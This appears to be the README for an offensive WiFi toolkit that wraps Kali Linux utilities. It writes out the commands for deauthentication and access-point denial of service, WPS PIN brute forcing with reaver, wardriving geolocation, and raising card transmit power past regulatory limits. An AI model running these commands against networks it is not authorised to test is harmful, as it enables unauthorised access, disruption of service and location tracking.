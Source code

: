 Lighter version of WHAT-PRO
Release notes for WiFi Hacking Attack Tool (WHAT) v1.0

This is only to be used for educational purposes only. It is illegal to use this program against wireless devices that you do not own.
Not all of these capabilities are available for WHAT

Pre-requisites:

a. Kali Linux 2 (32 or 64 bit iso or RPi ARM)
b. If using the WHAT-RPi version, please ensure the following repos are in the /etc/apt/sources.list file before installing:

deb http://http.kali.org/kali sana main non-free contrib
deb-src http://http.kali.org/kali sana main non-free contrib

deb http://security.kali.org/kali-security/ sana/updates main contrib non-free
deb-src http://security.kali.org/kali-security/ sana/updates main contrib non-free

This tool has only been run with Kali Linux 2. It is unknown what success you will have running on Ubuntu.

This is my first attempt at coding, please feel free to amend this program to run smoother as you see fit.

WHAT is designed to be an all in one and simplify WiFi exploitaton covering wardriving, WPA, WPS, MiTM, network scanning, exploitation and geolocation

There are three versions of WHAT (PRO, WHAT, Pi). All have different capabilities for different outputs. Download whichever version suits your needs best.

To start up:

1. you must install WHAT into the /root/ directory of Kali 2. Running the installer will download all the necessary packages you need to use WHAT 

cd root

git clone https://github.com/smoz1986/WHAT.git

cd WHAT

./WHAT-installer.sh

2. Once downloaded go to the 'WHAT' icon and click to start WHAT

3. On 'PRO' version you will have five options (some of these are deprecated for WHAT and WHAT-Pi versions)

4. As you are using WHAT quite a few blank terminals will pop up. Just minimise these but dont close them as that will close the parent menu/program

ADMIN

1. On initial activation of WHAT click on Admin
2. Then click on 'Wipe & Create Files' and 'Clear Archive' to create the file structure within the root directory. As you use the various programs within WHAT they will write to these files. 
3. Once you have run some programs you may want to clear out these logs. If you do 'Wipe & Create Files' and 'Clear Archive' that will remove everything and install a new file structure. Move files to DB will put them in the /root/dropbox/ folder which will make it easier for someone to locate and extract if you are using FTP or SSH with a remote client
4. Archive files will archive all files you have created to a certain point. But as said if you run 'Clear Archive' that will clear out the archive folder

SURVEY (works with WiFi card as wlan0 only. you will be given prompts when each tab is clicked to suit your needs)

1. 'Start WiFi Survey' will automatically put the card into monitor and start airodump-ng on survey mode. The start up string is as follows:

airodump-ng wlan0mon --gpsd -w /root/airodumplog/$filevar -c $chanvar --wps --write-interval 1 --manufacturer --output-format csv,kismet,netxml,gps

2. 'WiFi Survey (PCAP)' again this will put the card into monitor mode, however, will be conducting PCAPs rather than just survey, which will be required for any deauths...more on that later. The string run for this is as follows:

airodump-ng wlan0mon --beacons --gpsd -w /root/airodumplog/pcap/$filevar --bssid $bssidvar -c $chanvar --output-format pcap,csv,kismet,netxml --write-interval 1 --wps --manufacturer

3. 'WPS survey' will just run a basic WPS survey of nearby WiFi Access points. Command line is as follows:

wash -i wlan0mon -o /root/wpslog/$filevar.log --ignore-fcs

EXPLOIT

1. 'Deauth AP-Client' will conduct a deauth between an AP and client. Wireshark will fire up too so you can confirm capture of the EAPOL packets. Command is as follows:

aireplay-ng -0 $deauthvar -a $bssidvar -c $clientvar wlan0mon

2. 'Deauth AP / DOS' will conduct a deauth of a target AP only. Wireshark again will be activated. Command line used is as follows:

aireplay-ng -0 $deauthvar -a $bssidvar wlan0mon

3. 'WPS' will run a PIN brute force and Pixie attack on a WPS enabled AP. Command line used is as follows:

reaver -i wlan0mon -b $bssidvar -vv -S -P -c $chanvar -d $delvar -o /root/wpslog/wpscrack/$filevar.log

GEOLOCATION

1. 'GISKISMET (Track)' will plot out you entire track from your wardriving in a kml file for you to view on GoogleEarth. Command line used is as follows:

giskismet -x /root/airodumplog/$netxmlvar.kismet.netxml -q "select * from wireless" -o /root/giskismet/$filevar

2. 'GISKISMET (BSSID)' will plot out only specific AP's seen from your wardriving. Command line used is as follows:

giskismet -x /root/airodumplog/$nexmlvar.kismet.netxml -q "select * from wireless" --bssid "$bssidvar" -o /root/giskismet/wififilter/$filevar

3. 'Start iSniff' will start up iSniff GPS. More detail on Hubert3 iSniff-GPS can be found elsewhere on Github. Once iSniff is up and running open up iceweasel and put the following into the url bar: 127.0.0.1:8000/apple-wloc/(MAC Address of target AP)

4. 'Start loc-nogps' will start up loc-nogps. More detail on haxorthematrix loc-nogps is on Github. This program will incorporate iSniff and Wigle WiFi data in generating the location of AP's rather than your wardriving GPS track. The html file created will be within /root/WHAT-PRO/geo-tools/loc-nogps if you want to recall or delete it at a later date. A known bug is that if hidden SSIDs are processed in the kismet.netxml data from airodump they may come out as a repetitive string such of '&0#;' if this happens they will need to be removed/amended before loc-nogps will work. The command line used is as follows:

./loc-nogps.py -f /root/airodumplog/$locnvar -o $filevar.html -w 

COMMUNICATIONS

1. 'WiFi card power boost' will boost your WiFi card power. The default with WHAT is 2W. If you want to change the settings go to /root/WHAT-PRO/wifi-boost/wireless-regdb-2014.06.13/db.txt and amend all the values in brackets in the 'country 00:' and 'country BO:' sections to your desired Tx power. Make sure that your wifi card can accept your power setting, I accept no responsibility if you change the settings to something that will break your card. Once click, and your WiFi card's Tx power will be boosted

2. 'GPS' will start up your attached GPS. This only works with USB attached GPS.

3. 'OpenVPN' will start up OpenVPN if you have the credentials to connect to an active OpenVPN server

End, that's all.
